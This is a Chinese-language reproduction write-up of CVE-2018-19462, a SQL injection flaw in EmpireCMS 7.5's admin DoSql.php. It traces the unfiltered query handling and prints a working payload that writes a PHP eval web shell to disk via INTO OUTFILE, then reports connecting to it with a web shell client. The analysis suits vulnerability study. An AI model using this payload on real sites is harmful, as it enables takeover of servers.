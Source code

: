 （CVE-2018-19462）EmpireCMS 7.5 admindbDoSql.php代码注入漏洞
============================================================

一、漏洞简介
------------

EmpireCMS7.5及之前版本中的admindbDoSql.php文件存在代码注入漏洞。该漏洞源于外部输入数据构造代码段的过程中,网路系统或产品未正确过滤其中的特殊元素。攻击者可利用该漏洞生成非法的代码段,修改网络系统或组件的预期的执行控制流。

二、漏洞影响
------------

EmpireCMS 7.5

三、复现过程
------------

漏洞出现的页面如下

1.png

分析源码定位漏洞出现的位置在/e/admin/db/DoSql.php,浏览代码,对sqltext使用RepSqlTbpre函数进行处理

2.png

跟进RepSqlTbpre函数,发现仅仅对表的前缀做替换,没有做其他任何处理

3.png

继续浏览代码,发现对\$query使用DoRunQuery函数进行处理

4.png

跟进DoRunQuery函数,可以看到对\$sql参数只做了去除空格、以";"分隔然后遍历,并你没有做别的限制和过滤,导致可以执行恶意的sql语句

5.png

登录后台,点击如下,输入一段写shell的payload,payload内容如下:

    select '<?php @eval($_POST[1])?>' into outfile 'C:/phpStudy/WWW/empirecms/shell.php'

6.png

点击"执行SQL",提示错误,是由于mysql安全限制的原因

7.png

修改mysql的配置文件, 在\[mysqld\] 下添加条目: secure\_file\_priv
=,保存之后,然后重启mysql

8.png

再次执行SQL语句,可以看到成功执行SQL语句

9.png

查看是否成功上传shell

10.png

菜刀连接,成功getshell

11.png

参考链接
--------

> https://www.shuzhiduo.com/A/E35pxYYE5v/
